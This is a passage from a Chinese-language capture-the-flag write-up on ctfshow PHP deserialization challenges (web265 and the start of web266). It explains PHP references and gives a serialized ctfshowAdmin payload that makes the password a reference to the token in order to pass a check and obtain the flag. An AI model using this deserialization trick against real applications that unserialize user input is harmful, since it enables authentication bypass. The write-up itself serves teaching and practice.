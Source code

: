 这里面 `$b` 的值就是 `$a` 的值, 因为 `$b` 里面存了 `$a` 的地址, 两者是等价的

同理, 如果改变 `$b` 的值, `$a` 的值也同样会改变

payload

```php
<?php

class ctfshowAdmin{
    public $token;
    public $password;

    function __construct(){
        $this->password = &$this->token;
    }
}

echo serialize(new ctfshowAdmin());

?>
```

```php
O:12:"ctfshowAdmin":2:{s:5:"token";N;s:8:"password";R:2;}
```

可以看到这里面 password 后的字符是 `R`, 代表引用 (Reference)

get 传参后得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208152250505.png)

## web266

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208152252120.png)

这里考察一个知识点, `__destruct()` 会在程序**正常**执行**完毕**后被调用

例如

```php
<?php

class MyDestructableClass 
{
    function __construct() {
        print "In constructor\n";
    }

    function __destruct() {
        print "Destroying " . __CLASS__ . "\n";
    }
}

$obj = new MyDestructableClass();

throw new Exception('test');

?>
```
